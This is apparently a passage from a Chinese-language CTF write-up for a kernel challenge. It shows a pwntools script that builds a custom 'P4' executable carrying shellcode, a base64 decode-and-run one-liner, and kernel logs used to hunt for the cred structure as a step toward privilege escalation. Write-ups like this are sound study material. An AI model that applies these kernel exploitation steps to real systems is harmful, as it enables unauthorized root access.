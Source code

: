 ```python
#!/usr/bin/env python3
from pwn import *
from base64 import b64encode

context.arch = "amd64"

payload  = b"P4"             # magic
payload += p8(0)             # version
payload += p8(1)             # type
payload += p32(1)            # mapping_count
payload += p64(0x18)         # mapping_offset
payload += p64(0x400030)     # entry

# mapping
payload += flat(
    0x400000 | 7,
    0x1000,
    0
)

payload += asm(shellcraft.echo("test\n") + shellcraft.exit())

print(f'echo {b64encode(payload).decode()} | base64 -d > a ; chmod +x a ; ./a')
```

先寫個簡單的 p4 格式的執行檔測試一下我們的理解是不是對的  

```bash tab="command"
echo UDQAAQEAAAAYAAAAAAAAADAAQAAAAAAABwBAAAAAAAAAEAAAAAAAAAAAAAAAAAAASLgBAQEBAQEBAVBIuHVkcnULAQEBSDEEJGoBWGoBX2oFWkiJ5g8FajxYDwU= | base64 -d > a ; chmod +x a ; ./a
```

```bash tab="output"
[50353.170813] vm_mmap(load_addr=0x400000, length=0x1000, offset=0x0, prot=7)
test
```

接下來要找 `cred` 的位址，因為 `pwn` 的 `uid` 是 1000 ( = 0x3e8 )  
所以我們把使用者切換成 `pwn`，切成 `pwn` 之後要在 `/tmp` 才可以寫檔  
然後把 `mapping_count` 改大一點，比如 `6`，在他印出的位址指向的值中找 `0x3e8`

```bash
[50800.668734] vm_mmap(load_addr=0x400000, length=0x1000, offset=0x0, prot=7)
[50800.674080] vm_mmap(load_addr=0x10101010101b000, length=0x726475b848500101, offset=0x431480101010b75, prot=0)
[50800.674550] clear_user(addr=0x10101010101b848, length=0x726475b848500101)
[50800.675372] vm_mmap(load_addr=0x6a5f016a58016000, length=0x6a050fe689485a05, offset=0x50f583c, prot=4)
[50800.675786] vm_mmap(load_addr=0x0, length=0x0, offset=0x0, prot=0)
[50800.676003] vm_mmap(load_addr=0x0, length=0x7fffffffef99, offset=0x100000001, prot=0)
[50800.676260] vm_mmap(load_addr=0x0, length=0xffffa1c307595b40, offset=0x0, prot=0)
test
```
